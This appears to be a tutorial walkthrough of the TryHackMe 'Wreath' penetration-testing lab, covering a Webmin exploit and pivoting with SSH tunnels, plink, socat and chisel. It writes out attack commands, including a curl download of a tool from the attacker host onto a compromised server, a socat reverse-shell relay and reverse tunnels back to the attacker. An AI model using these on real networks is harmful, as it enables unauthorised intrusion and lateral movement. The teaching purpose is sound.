# Introduction                            

Wreath is designed as a learning resource for beginners with a primary focus on:

- Pivoting
- Working with the Empire C2 (**C**ommand and **C**ontrol) framework
- Simple Anti-Virus evasion techniques

The following topics will also be covered, albeit more briefly: 

- Code Analysis (Python and PHP)
- Locating and modifying public exploits
- Simple webapp enumeration and exploitation
- Git Repository Analysis
- Simple Windows Post-Exploitation techniques
- CLI Firewall Administration (CentOS and Windows)
- Cross-Compilation techniques
- Coding wrapper programs
- Simple exfiltration techniques
- Formatting a pentest report

# Webserver   Enumeration                            

**Nmap**

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-18 14:33 IST
Nmap scan report for 10.200.90.200
Host is up (0.17s latency).
Not shown: 65027 filtered tcp ports (no-response), 503 filtered tcp ports (host-unreach)
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 9c:1b:d4:b4:05:4d:88:99:ce:09:1f:c1:15:6a:d4:7e (RSA)
|   256 93:55:b4:d9:8b:70:ae:8e:95:0d:c2:b6:d2:03:89:a4 (ECDSA)
|_  256 f0:61:5a:55:34:9b:b7:b8:3a:46:ca:7d:9f:dc:fa:12 (ED25519)
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-title: Did not follow redirect to https://thomaswreath.thm
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
443/tcp   open   ssl/http   Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_ssl-date: TLS randomness does not represent time
|_http-title: Thomas Wreath | Developer
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=thomaswreath.thm/organizationName=Thomas Wreath Development/stateOrProvinceName=East Riding Yorkshire/countryName=GB
| Not valid before: 2022-07-18T08:58:35
|_Not valid after:  2023-07-18T08:58:35
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
9090/tcp  closed zeus-admin
10000/tcp open   http       MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

​                                                            

You will have noticed that the site failed to resolve. Looks like Thomas forgot to set up the DNS!

Add it to your hosts file manually. This can be accomplished by editing the `/etc/hosts` file on Linux/MacOS, or `C:\Windows\System32\drivers\etc\hosts` on Windows, to include the IP address, followed by a tab, then the domain name. **Note:** this *must* be done as root/Administrator.

It should look something like this when done, although the *IP address and domain name will be different*:  `10.10.10.10 example.thm`


# Webserver   Exploitation                            

In the previous task we found a vulnerable service[[1\]](https://sensorstechforum.com/cve-2019-15107-webmin/)[[2\]](https://www.webmin.com/exploit.html) running on the target which will give us the ability to execute commands on the target.

The next step would usually be to find an exploit for this vulnerability.  There are often exploits available online for known vulnerabilities (and we will cover searching for these in an upcoming task!), however, in  this instance, an exploit is provided [here](https://github.com/MuirlandOracle/CVE-2019-15107).

------

Start by cloning the repository. This can be done with the following command:

```
git clone https://github.com/MuirlandOracle/CVE-2019-15107
```

This creates a local copy of the exploit on our attacking machine. Navigate  into the folder then install the required Python libraries:

```
cd CVE-2019-15107 && pip3 install -r requirements.txt
```

If this doesn't work, you may need to install pip before downloading the libraries. This can be done with:
`sudo apt install python3-pip`

The script should already be executable, but if not, add the executable bit (`chmod +x ./CVE-2019-15107.py`).

Never run an unknown script from the internet! Read through the code and see  if you can get an idea of what it's doing. (Don't worry if you aren't  familiar with Python -- in this case the exploit was coded by the author of this content and is being run in a lab environment, so you can infer that it isn't malicious. It is, however, good practice to read through  scripts before running them).

Once you're satisfied that the script will do what it says it will, run the exploit against the target!

```
./CVE-2019-15107.py TARGET_IP
```




# Pivoting   

**What is Pivoting?**

Pivoting is the art of using access obtained over one machine to  exploit another machine deeper in the network. It is one of the most  essential aspects of network penetration testing, and is one of the  three main teaching points for this room.

Put simply, by using one of the techniques described in the following tasks (or others!), it  becomes possible for an attacker to gain initial access to a remote  network, and use it to access other machines in the network that would  not otherwise be accessible:


In this diagram, there are four machines on the target network: one public facing server, with three machines which are not exposed to the  internet. By accessing the public server, we can then pivot to attack  the remaining three targets.

***Note:** This is an example diagram and is not representative of the Wreath Network.*

This section will contain a lot of theory for pivoting from both Linux and Windows compromised targets, which we will then put into practice  against the next machine in the network. Remember though: you have a  sandbox environment available to you with the compromised machine in the Wreath network. After the enumeration tasks coming up, you'll also know about the next machine in the network. Feel free to use these boxes to  play around with the tools as you go through the tasks, but be aware  that some techniques may be stopped by the firewalls involved (which we  will look at mitigating later in the network).

## Pivoting   High-level Overview

The methods we use to pivot tend to vary between the different target operating systems. Frameworks like Metasploit can make the process  easier, however, for the time being, we'll be looking at more manual  techniques for pivoting.

There are two main methods encompassed in this area of pentesting:

- **Tunnelling/Proxying:** Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network. This could potentially  also be *tunnelled* inside another protocol (e.g. SSH tunnelling), which can be useful for evading a basic **I**ntrusion **D**etection **S**ystem (IDS) or firewall
- **Port Forwarding:** Creating a connection between a local port and a single port on a target, via a compromised host

A proxy is good if we want to redirect lots of different kinds of traffic into our target network -- for example, with an nmap scan, or to access multiple ports on multiple different machines.

Port Forwarding  tends to be faster and more reliable, but only allows us to access a  single port (or a small range) on a target device. 

Which style of pivoting is more suitable will depend entirely on the layout of the  network, so we'll have to start with further enumeration before we  decide how to proceed. It would be sensible at this point to also start  to draw up a layout of the network as you see it -- although in the case of this practice network, the layout is given in the box at the top of  the screen.

As a general rule, if you have multiple possible entry-points, try to use a Linux/Unix target where possible, as these tend to be easier to pivot from. An outward facing Linux webserver is absolutely ideal.

The remaining tasks in this section will cover the following topics:

- Enumerating a network using native and statically compiled tools
- Proxychains / FoxyProxy
- SSH port forwarding and tunnelling (primarily Unix)
- plink.exe (Windows)
- socat (Windows and Unix)
- chisel (Windows and Unix)
- sshuttle (currently Unix only)

This is far from an exhaustive list of the tools available for pivoting, so further research is encouraged.


# Pivoting Enumeration                            

As always, enumeration is the key to success. Information is power -- the more we know about our target, the more options we have available  to us. As such, our first step when attempting to pivot through a  network is to get an idea of what's around us. 

There are five possible ways to enumerate a network through a compromised host:

1. Using material found on the machine. The hosts file or ARP cache, for example
2. Using pre-installed tools
3. Using statically compiled tools
4. Using scripting techniques 
5. Using local tools through a proxy

These are written in the order of preference. Using local tools through a  proxy is incredibly slow, so should only be used as a last resort.  Ideally we want to take advantage of pre-installed tools on the system (Linux systems sometimes have Nmap installed by default, for example). This is an example of Living off the Land (LotL) -- a good way to minimise  risk. Failing that, it's very easy to transfer a static binary, or put  together a simple ping-sweep tool in Bash (which we'll cover below). Before anything else though, it's sensible to check to see if there are any pieces of useful information stored on the target. `arp -a` can be used to Windows or Linux to check the ARP cache of the machine -- this will show you any IP  addresses of hosts that the target has interacted with recently.  Equally, static mappings may be found in `/etc/hosts` on Linux, or `C:\Windows\System32\drivers\etc\hosts` on Windows. ` /etc/resolv.conf` on Linux may also identify any local DNS servers, which may be misconfigured to  allow something like a DNS zone transfer attack (which is outwith the  scope of this content, but worth looking into). On Windows the easiest  way to check the DNS servers for an interface is with `ipconfig /all`. Linux has an equivalent command as an alternative to reading the resolv.conf file: `nmcli dev show`.

If there are no useful tools already installed on the system, and the  rudimentary scripts are not working, then it's possible to get *static* copies of many tools. These are versions of the tool that have been  compiled in such a way as to not require any dependencies from the box.  In other words, they could theoretically work on *any* target, assuming the correct OS and architecture. For example: statically compiled copies of Nmap for  different operating systems (along with various other tools) can be  found in various places on the internet. A good (if dated) resource for  these can be found [here](https://github.com/andrew-d/static-binaries). A more up-to-date (at the time of writing) version of Nmap for Linux specifically can be found [here](https://github.com/ernw/static-toolbox/releases/download/1.04/nmap-7.80SVN-x86_64-a36a34aa6-portable.zip).  Be aware that many repositories of static tools are very outdated.  Tools from these repositories will likely still do the job; however, you may find that they require different syntax, or don't work in quite the way that you've come to expect.

***Note:** The difference between a "static" binary and a "dynamic" binary is in the compilation. Most programs use a variety of external  libraries (*`.so` *files on Linux, or* `.dll` *files on Windows) -- these are referred to as "dynamic" programs.  Static programs are compiled with these libraries built into the  finished executable file. When we're trying to use the binary on a  target system we will nearly always need a statically compiled copy of  the program, as the system may not have the dependencies installed  meaning that a dynamic binary would be unable to run.*

Finally, the dreaded scanning through a proxy. This should be an absolute last  resort, as scanning through something like proxychains is *very* slow, and often limited (you cannot scan UDP ports through a TCP proxy, for example). The one exception to this rule is when using the Nmap Scripting Engine (NSE), as the scripts library  does not come with the statically compiled version of the tool. As such, you can use a static copy of Nmap to sweep the network and find hosts  with open ports, then use your local copy of Nmap through a proxy *specifically against the found ports*.

------

Before putting this all into practice let's talk about living off the land  shell techniques. Ideally a tool like Nmap will already be installed on  the target; however, this is not always the case (indeed, you'll find  that Nmap is **not** installed on the currently compromised server of the Wreath network). If this happens, it's worth looking into whether  you can use an installed shell to perform a sweep of the network. For  example, the following Bash one-liner would perform a full ping sweep of the 192.168.1.x network:

```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```

This could be easily modified to search other network ranges -- including the Wreath network. 

The above command generates a full list of numbers from 1 to 255 and loops  through it. For each number, it sends one ICMP ping packet to192.168.1.x as a backgrounded job (meaning that each ping runs in parallel for  speed), where i is the current number. Each response is searched for  "bytes from" to see if the ping was successful. Only successful  responses are shown.

The equivalent of this command in Powershell  is unbearably slow, so it's better to find an alternative option where  possible. It's relatively straight forward to write a simple network  scanner in a language like C# (or a statically compiled scanner written  in C/C++/Rust/etc), which can be compiled and used on the target. This,  however, is outwith the scope of the Wreath network (although very  simple beta examples can be found [here](https://github.com/MuirlandOracle/C-Sharp-Port-Scan) for C#, or [here](https://github.com/MuirlandOracle/CPP-Port-Scanner) for C++).

It's worth noting as well that you may encounter hosts which have firewalls  blocking ICMP pings (Windows boxes frequently do this, for example).  This is likely to be less of a problem when pivoting, however, as these  firewalls (by default) often only apply to external traffic, meaning  that anything sent through a compromised host on the network should be  safe. It's worth keeping in mind, however.

If you suspect that a host is active but is blocking ICMP ping requests, you could also check some common ports using a tool like netcat.


Port scanning in bash can be done (ideally) entirely natively:

```
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

Bear in mind that this will take a *very* long time, however!

There are many other ways to perform enumeration using only the tools  available on a system, so please experiment further and see what you can come up with!



##  Proxychains & Foxyproxy

In this task we'll be looking at two "proxy" tools: Proxychains and  FoxyProxy. These both allow us to connect through one of the proxies  we'll learn about in the upcoming tasks. When creating a proxy we open  up a port on our own attacking machine which is linked to the  compromised server, giving us access to the target network. 

Think of this as being something like a  tunnel created between a port on our attacking box that comes out inside  the target network -- like a  secret tunnel from a fantasy story, hidden beneath the floorboards of  the local bar and exiting in the palace treasure chamber. 

Proxychains and FoxyProxy can be used to direct our traffic through this port and into our target network.

------

**Proxychains**

Proxychains is a tool we have already briefly mentioned in previous tasks. It's a  very useful tool -- although not without its drawbacks. Proxychains can  often slow down a connection: performing an nmap scan through it is  especially hellish. Ideally you should try to use static tools where  possible, and route traffic through proxychains only when required.

That said, let's take a look at the tool itself.

Proxychains is a command line tool which is activated by prepending the command `proxychains` to other commands. For example, to proxy netcat through a proxy, you could use the command:
`proxychains nc 172.16.0.10 23`

Notice that a proxy port was not specified in the above command. This is  because proxychains reads its options from a config file. The master  config file is located at `/etc/proxychains.conf`. This is  where proxychains will look by default; however, it's actually the last  location where proxychains will look. The locations (in order) are:

1. The current directory (i.e. `./proxychains.conf`)
2. `~/.proxychains/proxychains.conf`
3. `/etc/proxychains.conf`

This makes it extremely easy to configure proxychains for a specific  assignment, without altering the master file. Simply execute: `cp /etc/proxychains.conf .`, then make any changes to the config file in a copy stored in your  current directory. If you're likely to move directories a lot then you  could instead place it in a `.proxychains` directory under  your home directory, achieving the same results. If you happen to lose  or destroy the original master copy of the proxychains config, a  replacement can be downloaded from [here](https://raw.githubusercontent.com/haad/proxychains/master/src/proxychains.conf).

Speaking of the `proxychains.conf` file, there is only one section of particular use to us at this moment  of time: right at the bottom of the file are the servers used by the  proxy. You can set more than one server here to chain proxies together,  however, for the time being we will stick to one proxy:

 ![Screenshot of the default proxychains configuration showing the [Proxylist] section](assets/443c865e3ff3.png)

Specifically, we are interested in the "ProxyList" section:
`[ProxyList]# add proxy here ...# meanwhile# defaults set to "tor"socks4 127.0.0.1 9050`

It is here that we can choose which port(s) to forward the connection  through. By default there is one proxy set to localhost port 9050 --  this is the default port for a Tor entrypoint, should you choose to run  one on your attacking machine. That said, it is not hugely useful to us. This should be changed to whichever (arbitrary) port is being used for  the proxies we'll be setting up in the following tasks. 

There is one other line in the Proxychains configuration that is worth paying attention to, specifically related to the Proxy DNS settings:


If performing an Nmap scan through proxychains, this option can cause the scan to hang and ultimately crash. Comment out the `proxy_dns` line using a hashtag (`#`) at the start of the line before performing a scan through the proxy! 


Other things to note when scanning through proxychains:

- You can only use TCP scans -- so no UDP or SYN scans. ICMP Echo packets (Ping requests) will also not work through the proxy, so use the `-Pn` switch to prevent Nmap from trying it.
- It will be *extremely* slow. Try to only use Nmap through a proxy when using the NSE (i.e. use a static binary to see where the open ports/hosts are before proxying a local copy of nmap to use the scripts library).

**FoxyProxy**

Proxychains is an acceptable option when working with CLI tools, but if working in a web browser to access a webapp through a proxy, there is a better  option available, namely: FoxyProxy!

People frequently use this  tool to manage their BurpSuite/ZAP proxy quickly and easily, but it can  also be used alongside the tools we'll be looking at in subsequent tasks in order to access web apps on an internal network. FoxyProxy is a  browser extension which is available for [Firefox](https://addons.mozilla.org/en-GB/firefox/addon/foxyproxy-basic/) and [Chrome](https://chrome.google.com/webstore/detail/foxyproxy-basic/dookpfaalaaappcdneeahomimbllocnb). There are two versions of FoxyProxy available: Basic and Standard.  Basic works perfectly for our purposes, but feel free to experiment with standard if you wish. 

After installing the extension in your browser of choice, click on it in your toolbar:


Click on the "Options" button. This will take you to a page where you can  configure your saved proxies. Click "Add" on the left hand side of the  screen:


Fill in the IP and Port on the right hand side of the page that appears,  then give it a name. Set the proxy type to the kind of proxy you will be using. SOCKS4 is usually a good bet, although Chisel (which we will  cover in a later task) requires SOCKS5. An example config is given here:

Press Save, then click on the icon in the task bar again to bring up the  proxy menu. You can switch between any of your saved proxies by clicking on them:


Once activated, all of your browser traffic will be redirected through the  chosen port (so make sure the proxy is active!). Be aware that if the  target network doesn't have internet access (like all TryHackMe boxes)  then you will not be able to access the outside internet when the proxy  is activated. Even in a real engagement, routing your general internet  searches through a client's network is unwise anyway, so turning the  proxy off (or using the routing features in FoxyProxy standard) for  everything other than interaction with the target network is advised.

With the proxy activated, you can simply navigate to the target domain or IP in your browser and the proxy will take care of the rest!


## SSH Tunnelling / Port Forwarding

The first tool we'll be looking at is none other than the  bog-standard SSH client with an OpenSSH server. Using these simple  tools, it's possible to create both forward and reverse connections to  make SSH "tunnels", allowing us to forward ports, and/or create proxies.

------

**Forward Connections**

Creating a forward (or "local") SSH tunnel can be done from our attacking box  when we have SSH access to the target. As such, this technique is much  more commonly used against Unix hosts. Linux servers, in particular, commonly have SSH active and open. That said,  Microsoft (relatively) recently brought out their own implementation of  the OpenSSH server, native to Windows, so this technique may begin to  get more popular in this regard if the feature were to gain more  traction.

There are two ways to create a forward SSH tunnel using the SSH client -- port forwarding, and creating a proxy.

- Port forwarding is accomplished with the `-L` switch, which creates a link to a **Local port**. For example, if we had SSH access to 172.16.0.5 and there's a  webserver running on 172.16.0.10, we could use this command to create a  link to the server on 172.16.0.10:
  `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`
  We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 *on our own* *attacking machine.* For example, by entering `localhost:8000` into a web browser. Using this technique we have effectively created a  tunnel between port 80 on the target server, and port 8000 on our own  box. Note that it's good practice to use a high port, out of the way,  for the local connection. This means that the low ports are still open  for their correct use (e.g. if we wanted to start our own webserver to  serve an exploit to a target), and also means that we do not need to use `sudo` to create the connection. The `-fN` combined switch does two things: `-f` backgrounds the shell immediately so that we have our own terminal back. `-N` tells SSH that it doesn't need to execute any commands -- only set up the connection.

  

- Proxies are made using the `-D` switch, for example: `-D 1337`. This will open up port 1337 on your attacking box as a proxy to send  data through into the protected network. This is useful when combined  with a tool such as proxychains. An example of this command would be:
  `ssh -D 1337 user@172.16.0.5 -fN`
  This again uses the `-fN` switches to background the shell. The choice of port 1337 is completely arbitrary -- all that matters is that the port is available and  correctly set up in your proxychains (or equivalent) configuration file. Having this proxy set up would allow us to route all of our traffic  through into the target network.


------

**Reverse Connections**

Reverse connections are very possible with the SSH client (and indeed may be  preferable if you have a shell on the compromised server, but not SSH  access). They are, however, riskier as you inherently must access your  attacking machine *from* the target -- be it by using credentials,  or preferably a key based system. Before we can make a reverse  connection safely, there are a few steps we need to take:

1. First, generate a new set of SSH keys and store them somewhere safe (`ssh-keygen`):
   

   This will create two new files: a private key, and a public key.

   

2. Copy the contents of the public key (the file ending with `.pub`), then edit the `~/.ssh/authorized_keys` file on your own attacking machine. You may need to create the `~/.ssh` directory and `authorized_keys` file first.

3. On a new line, type the following line, then paste in the public key:
   `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty`
   This makes sure that the key can only be used for port forwarding,  disallowing the ability to gain a shell on your attacking machine.

The final entry in the `authorized_keys` file should look something like this:


Next. check if the SSH server on your attacking machine is running:
`sudo systemctl status ssh`

If the service is running then you should get a response that looks like this (with "active" shown in the message):


If the status command indicates that the server is not running then you can start the ssh service with:
`sudo systemctl start ssh`

The only thing left is to do the unthinkable: transfer the private key to  the target box. This is usually an absolute no-no, which is why we  generated a throwaway set of SSH keys to be discarded as soon as the  engagement is over.

With the key transferred, we can then connect back with a reverse port forward using the following command:
`ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN`

To put that into the context of our fictitious IPs: 172.16.0.10 and  172.16.0.5, if we have a shell on 172.16.0.5 and want to give our  attacking box (172.16.0.20) access to the webserver on 172.16.0.10, we  could use this command on the 172.16.0.5 machine:
`ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN`

This would open up a port forward to our Kali box, allowing us to access the 172.16.0.10 webserver, in exactly the same way as with the forward  connection we made before!

In newer versions of the SSH client, it is also possible to create a reverse proxy (the equivalent of the `-D` switch used in local connections). This may not work in older clients,  but this command can be used to create a reverse proxy in clients which  do support it:
`ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN`

This, again, will open up a proxy allowing us to redirect all of our traffic  through localhost port 1337, into the target network.

***Note:** Modern Windows comes with an inbuilt SSH client available by default.  This allows us to make use of this technique in Windows systems, even if there is not an SSH server running on the Windows system we're  connecting back from. In many ways this makes the next task covering  plink.exe redundant; however, it is still very relevant for older  systems.*

------

To close any of these connections, type `ps aux | grep ssh` into the terminal of the machine that created the connection:


Find the process ID (PID) of the connection. In the above image this is 105238.

Finally, type `sudo kill PID` to close the connection:




## plink.exe

Plink.exe is a Windows command line version of the PuTTY SSH client.  Now that Windows comes with its own inbuilt SSH client, plink is less  useful for modern servers; however, it is still a very useful tool, so  we will cover it here.

Generally speaking, Windows servers are  unlikely to have an SSH server running so our use of Plink tends to be a case of transporting the binary to the target, then using it to create a reverse connection. This would be done with the following command:
`cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N`

Notice that this syntax is nearly identical to previously when using the standard OpenSSH client. The `cmd.exe /c echo y` at the start is for non-interactive shells (like most reverse shells -- with Windows shells being difficult to stabilise), in order to get  around the warning message that the target has not connected to this  host before. 

To use our example from before, if we have access to 172.16.0.5 and would like to forward a connection to 172.16.0.10:80  back to port 8000 our own attacking machine (172.16.0.20), we could use  this command:
`cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N`

Note that any keys generated by `ssh-keygen` will not work properly here. You will need to convert them using the `puttygen` tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with:
`puttygen KEYFILE -o OUTPUT_KEY.ppk`
Substituting in a valid file for the keyfile, and adding in the output file.

The resulting `.ppk` file can then be transferred to the Windows target and used in exactly  the same way as with the Reverse port forwarding taught in the previous  task (despite the private key being converted, it will still work  perfectly with the same public key we added to the authorized_keys file  before).

***Note:** Plink is notorious for going out of  date quickly, which often results in failing to connect back. Always  make sure you have an up to date version of the* `.exe`*. Whilst there is a copy pre-installed on Kali at* `/usr/share/windows-resources/binaries/plink.exe`*, downloading a new copy from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) before a new engagement is sensible.*

## Socat

Socat is not just great for fully stable Linux shells[[1\]](https://tryhackme.com/room/introtoshells), it's also superb for port forwarding. The one big disadvantage of socat (aside from the frequent problems  people have learning the syntax), is that it is very rarely installed by default on a target. That said, static binaries are easy to find for  both [Linux](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat) and [Windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download). Bear in mind that the Windows version is unlikely to bypass Antivirus  software by default, so custom compilation may be required. Before we begin, it's worth noting: if you have completed the [What the Shell?](https://tryhackme.com/room/introtoshells) room, you will know that socat can be used to create encrypted  connections. The techniques shown here could be combined with the  encryption options detailed in the shells room to create encrypted port  forwards and relays. To avoid overly complicating this section, this  technique will not be taught here; however, it's well worth  experimenting with this in your own time.

Whilst the  following techniques could not be used to set up a full proxy into a  target network, it is quite possible to use them to successfully forward ports from both Linux and Windows compromised targets. In particular, socat makes a very good relay: for example, if you are attempting to get a shell on a target  that does not have a direct connection back to your attacking computer,  you could use socat to set up a relay on the currently compromised  machine. This listens for the reverse shell from the target and then  forwards it immediately back to the attacking box:


It's best to think of socat as a way to join two things together -- kind of  like the Portal Gun in the Portal games, it creates a link between two  different locations. This could be two ports on the same machine, it  could be to create a relay between two different machines, it could be  to create a connection between a port and a file on the listening  machine, or many other similar things. It is an extremely powerful tool, which is well worth looking into in your own time.

Generally  speaking, however, hackers tend to use it to either create reverse/bind  shells, or, as in the example above, create a port forward.  Specifically, in the above example we're creating a port forward *from* a port on the compromised server *to* a listening port on our own box. We could do this the other way though, by either forwarding a connection from the attacking machine to a  target inside the network, or creating a direct link between a listening port on the *attacking machine* with the service on the internal  server. This latter application is especially useful as it does not  require opening a port on the compromised server.

Before using socat, it will usually be necessary to download a binary for it, then upload it to the box. 

**For example, with a Python webserver:-**

On Kali (inside the directory containing your Socat binary):

```
sudo python3 -m http.server 80
```

Then, on the target:
`curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME`



With the binary uploaded, let's have a look at each of the above scenarios in turn.

***Note:** This uploads the socat binary with your username in the title; however, the  example commands given in the rest of this task will refer to the binary simply as* `socat`*.*

------

**Reverse Shell Relay**

In this scenario we are using socat to create a relay for us to send a  reverse shell back to our own attacking machine (as in the diagram  above). First let's start a standard netcat listener on our attacking  box (`sudo nc -lvnp 443`). Next, on the compromised server, use the following command to start the relay:
`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`

***Note:** the order of the two addresses matters here. Make sure to open the listening port first,* then *connect back to the attacking machine.*

From here we can then create a reverse shell to the newly opened port 8000  on the compromised server. This is demonstrated in the following  screenshot, using netcat on the remote server to simulate receiving a  reverse shell from the target server:


A brief explanation of the above command:

- `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
- `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
- `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

The relay connects back to a listener started using an alias to a standard netcat listener: `sudo nc -lvnp 443`.

In this way we can set up a relay to send reverse shells through a  compromised system, back to our own attacking machine. This technique  can also be chained quite easily; however, in many cases it may be  easier to just upload a static copy of netcat to receive your reverse  shell directly on the compromised server.

------

**Port Forwarding -- Easy**

The quick and easy way to set up a port forward with socat is quite simply  to open up a listening port on the compromised server, and redirect  whatever comes into it to the target server. For example, if the  compromised server is 172.16.0.5 and the target is port 3306 of  172.16.0.10, we could use the following command (on the compromised  server) to create a port forward:
`./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`

This opens up port 33060 on the compromised server and redirects the input  from the attacking machine straight to the intended target server,  essentially giving us access to the (presumably MySQL Database) running  on our target of 172.16.0.10. The `fork` option is used to put every connection into a new process, and the `reuseaddr` option means that the port stays open after a connection is made to it. Combined, they allow us to use the same port forward for more than one  connection. Once again we use `&` to background the shell, allowing us to keep using the same terminal session on the compromised server for other things.

We can now connect to port 33060 on the relay (172.16.0.5) and have our  connection directly relayed to our intended target of 172.16.0.10:3306.

------

**Port Forwarding -- Quiet**

The previous technique is quick and easy, but it also opens up a port on  the compromised server, which could potentially be spotted by any kind  of host or network scanning. Whilst the risk is not *massive*, it  pays to know a slightly quieter method of port forwarding with socat.  This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

First of all, on our own attacking machine, we issue the following command:
`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`

This opens up two ports: 8000 and 8001, creating a local port relay. What  goes into one of them will come out of the other. For this reason, port  8000 also has the `fork` and `reuseaddr` options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:
`./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &`

This makes a connection between our listening port 8001 on the attacking  machine, and the open port of the target server. To use the fictional  network from before, we could enter this command as:
`./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &`

This would create a link between port 8000 on our attacking machine, and  port 80 on the intended target (172.16.0.10), meaning that we could go  to `localhost:8000` in our attacking machine's web browser  to load the webpage served by the target: 172.16.0.10:80!

This is quite a complex scenario to visualise, so let's quickly run through  what happens when you try to access the webpage in your browser:

- The request goes to `127.0.0.1:8000`
- Due to the socat listener we started on our own machine, anything that goes into port 8000, comes out of port 8001
- Port 8001 is connected directly to the socat process we ran on the  compromised server, meaning that anything coming out of port 8001 gets  sent to the compromised server, where it gets relayed to port 80 on the  target server.

The process is then reversed when the target sends the response:

- The response is sent to the socat process on the compromised server. What  goes into the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine.
- Anything that  goes into port 8001 on our attacking machine comes out of port 8000 on  our attacking machine, which is where the web browser expects to receive its response, thus the page is received and rendered.

We have now achieved the same thing as previously, but without opening any ports on the server!

------

Finally, we've learnt how to *create* backgrounded socat port forwards and relays, but it's important to also know how to *close* these. The solution is simple: run the `jobs` command in your terminal, then kill any socat processes using `kill %NUMBER`:




## Chisel

[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a  tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can  be easily compiled for any system (with static release binaries for Linux and Windows provided). In many ways it provides the same functionality  as the standard SSH proxying / port forwarding we covered earlier;  however, the fact it doesn't require SSH access on the compromised  target is a big bonus.

Before we can use chisel, we need to download appropriate binaries from the tool's [Github release page](https://github.com/jpillora/chisel/releases). These can then be unzipped using `gunzip`, and executed as normal:


You must have an appropriate copy of the chisel binary on *both the attacking machine and the compromised server.* Copy the file to the remote server with your choice of file transfer  method. You could use the webserver method covered in the previous  tasks, or to shake things up a bit, you could use SCP:
`scp -i KEY chisel user@target:/tmp/chisel-USERNAME`

------

The chisel binary has two modes: *client* and *server*. You can access the help menus for either with the command: `chisel client|server --help`
e.g:


We will be looking at two uses for chisel in this task (a SOCKS proxy, and port forwarding); however, chisel is a very versatile tool which can be used in many ways not described here. You are encouraged to read  through the help pages for the tool for this reason.*


------

***Reverse SOCKS Proxy:***
*Let's start by looking at setting up a reverse SOCKS proxy with chisel. This connects *back* from a compromised server to a listener waiting on our attacking machine.

On our own attacking box we would use a command that looks something like this:
`./chisel server -p LISTEN_PORT --reverse &`

This sets up a listener on your chosen `LISTEN_PORT`. 

On the compromised host, we would use the following command:
`./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`

This command connects back to the waiting listener on our attacking box,  completing the proxy. As before, we are using the ampersand symbol (`&`) to background the processes.



Notice that, despite connecting back to port 1337 successfully, the actual proxy has been opened on `127.0.0.1:1080`. As such, we will be using port 1080 when sending data through the proxy.

Note the use of `R:socks` in this command. "R" is prefixed to *remotes* (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has  been started in reverse mode. It essentially tells the chisel client  that the server anticipates the proxy or port forward to be made at the  client side (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server). Once  again, reading the chisel help pages for more information is  recommended. 

***Forward SOCKS Proxy:***
*Forward proxies are rarer than reverse proxies for the same reason as reverse  shells are more common than bind shells; generally speaking, egress  firewalls (handling outbound traffic) are less stringent than ingress  firewalls (which handle inbound connections). That said, it's still well worth learning how to set up a forward proxy with chisel.

In many ways the syntax for this is simply reversed from a reverse proxy.

First, on the compromised host we would use:
`./chisel server -p LISTEN_PORT --socks5`

On our own attacking box we would then use:
`./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`

In this command, `PROXY_PORT` is the port that will be opened for the proxy.

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.

**Proxychains Reminder:**
When sending data through either of these proxies, we would need to set the  port in our proxychains configuration. As Chisel uses a SOCKS5 proxy, we will also need to change the start of the line from `socks4` to `socks5`:

```bash
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5  127.0.0.1 1080
```


